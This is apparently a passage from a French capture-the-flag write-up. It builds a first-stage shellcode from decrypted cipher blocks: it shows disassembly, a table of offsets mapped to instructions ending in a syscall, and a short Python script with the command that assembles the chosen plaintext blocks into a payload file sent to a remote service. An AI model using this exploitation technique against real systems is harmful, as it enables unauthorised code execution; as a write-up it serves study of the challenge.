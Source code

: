 ```
0xa:	adc	ebp, -0x6a
0xd:	in	eax, dx
0xe:	sub	esp, dword ptr [rbx]
--------------------------------
```



Pour exécuter notre premier stage de shellcode, nous devons donc envoyer au service distant des données agencées comme nous l'avons vu dans le schéma précédent:

```
          ┌─────────┬────────────┐
          │  Clair  │   Chiffré  │
          ├─────────┼────────────┤
0x12e450  │    ?    │  push rsp  │
          ├─────────┼────────────┤
0x1173c0  │    ?    │  pop rsi   │
          ├─────────┼────────────┤
0x7ffb0   │    ?    │ mov eax, 0 │
          ├─────────┼────────────┤
0x89de0   │    ?    │ mov edx, X │
          ├─────────┼────────────┤
0xee800   │    ?    │  syscall   │
          └─────────┴────────────┘
```

Le script suivant nous permet d'aller automatiquement chercher les blocs en clair correspondants et de les concaténer dans un fichier `pld.bin`.

```python
#!/usr/bin/python

from sys import argv

if len(argv) < 2:
    exit()

out_file = open("pld.bin", "w")
out_file.write("")
out_file.close()

for i in range(1, len(argv)):
    offset = int(argv[i], 16)
    plain_file = open("stereogram.png","rb")
    plain = plain_file.read()
    plain_file.close()
    content = plain[offset:offset+16]
    out_file = open("pld.bin", "a")
    out_file.write(content)
    out_file.close()
```

```
$ ./generate.py 0x12e450 0x1173c0 0x7ffb0 0x89de0 0xee800
```

